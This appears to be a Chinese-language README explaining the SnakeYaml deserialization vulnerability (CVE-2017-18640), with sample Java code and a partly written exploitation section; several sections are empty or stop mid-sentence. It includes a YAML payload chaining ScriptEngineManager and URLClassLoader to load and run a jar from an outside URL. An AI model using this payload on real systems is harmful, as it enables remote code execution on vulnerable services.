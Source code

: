 # SnakeYaml反序列化漏洞（CVE-2017-18640）



# 一、SnakeYaml是什么

Java的一个用来处理yaml文件的库，提供了一个load方法用于加载yaml为Java对象



# 二、漏洞描述



说是漏洞，其实也算是feature，类似于fastjson，这是人家支持的功能。 



新建一个类`Foo`用于测试： 

```java
package com.cc11001100;

public class Foo {

    private String bar;

    public String getBar() {
        return bar;
    }

    public void setBar(String bar) {
        this.bar = bar;
    }

    @Override
    public String toString() {
        return "Foo{" +
                "bar='" + bar + '\'' +
                '}';
    }
}
```

尝试反序列化这个类：

```java
package com.cc11001100;

import org.yaml.snakeyaml.Yaml;

import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {

        Yaml yaml = new Yaml();
        Foo foo = yaml.load("!!com.cc11001100.Foo {bar: 'xxx'}");
        System.out.println(foo);
        System.out.println(yaml.dump(foo));

    }

}
```

可以看到反序列化成功，并且成员变量的值也被成功设置进去了：

![image-20220831012329439](README.assets/image-20220831012329439.png)



调用链：

```
loadAs
    loadFromReader
        getSingleData
            constructDocument
                constructObjectNoCheck
                    constructObjectNoCheck
```

因为是其本身提供的功能，所以调用链其实没什么意义。





# 三、漏洞利用：ScriptEngineManager

## 3.1 如何利用

在Java中有个

```
https://github.com/artsploit/yaml-payload
```



### 为什么选择这个gadget？

1. `ScriptEngineManager`这个类和



## 3.2 能出网：远程加载jar文件

就是通过`javax.script.ScriptEngineManager`的构造函数传递一个`java.net.URLClassLoader`来远程加载类文件执行，只要这个被加载的文件是`EvilScriptEngineFactory`类型即可。

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

下面的构造方法接受一个`ClassLoader`类型的加载器： 

```java
    /**
     * This constructor loads the implementations of
     * <code>ScriptEngineFactory</code> visible to the given
     * <code>ClassLoader</code> using the service provider mechanism.<br><br>
     * If loader is <code>null</code>, the script engine factories that are
     * bundled with the platform are loaded. <br>
     *
     * @param loader ClassLoader used to discover script engine factories.
     */
    public ScriptEngineManager(ClassLoader loader) {
        initEngines(loader);
    }
```

可以通过`URLClassLoader`来远程加载：

```java
String remoteJarUrl = "xxx";
new ScriptEngineManager(new URLClassLoader(new URL[]{new URL(remoteJarUrl)})); 
```





## 3.3 不能出网：加载本地jar文件





# 四、漏洞利用：结合其它框架 







# 五、相关资料

- https://github.com/artsploit/yaml-payload

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18640
- https://nvd.nist.gov/vuln/detail/CVE-2017-18640
- https://tttang.com/archive/1591/
- https://xz.aliyun.com/t/9934
- https://xz.aliyun.com/t/11599
- https://paper.seebug.org/1657/
- https://xz.aliyun.com/t/10655
- https://drops.blbana.cc/2020/03/24/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

